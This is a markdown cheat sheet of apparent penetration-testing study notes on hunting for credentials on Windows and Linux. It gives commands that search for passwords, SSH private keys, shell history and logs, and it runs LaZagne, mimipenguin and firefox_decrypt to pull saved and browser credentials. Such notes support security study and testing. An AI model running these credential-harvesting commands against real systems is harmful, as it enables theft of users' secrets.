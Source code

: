 ### Credential Hunting in Windows
- Creds are often saved on a local system. How can we find these?
- **GUI**
  - Use the Windows Search feature
  - Search for one of these keywords: `Passwords, Passphrases, Keys, Username, User account, Creds, Users,	Passkeys, Passphrases, configuration, dbcredential, dbpassword, pwd, Login, Credentials`
- **cmd or Powershell**
  - Using lazagne:
    - Install lazagne: https://github.com/AlessandroZ/LaZagne/releases/
    - `start lazagne.exe all`
  - Using findstr
    - `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`

# Linux Local Password Attacks

## Credential Hunting in Linux
- Search for config files: `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done`
- Find creds in config files: `for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done`
- Find databases: `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done`
- Find info on system: `find /home/* -type f -name "*.txt" -o ! -name "*.*"`
- Find scripts: `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done`
- Check out the crontab: `cat /etc/crontab ` and `ls -la /etc/cron.*/`
- Find SSH Private Keys: `grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"`
- Find SSH Public Keys: `grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"`
- Find command history: `tail -n5 /home/*/.bash*`
- Find interesting data in logs: `for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done`
- We can use `mimipenguin` to find creds:
  - `sudo python3 mimipenguin.py`
  - `sudo bash mimipenguin.sh`
- We can also use LaZagne: `sudo python2.7 laZagne.py all`
- Creds are often stored in the browser by users
  - Firefox
    - `ls -l .mozilla/firefox/ | grep default `
    - `cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .`
    - `python3.9 firefox_decrypt.py`
  - `python3 laZagne.py browsers`
  - 
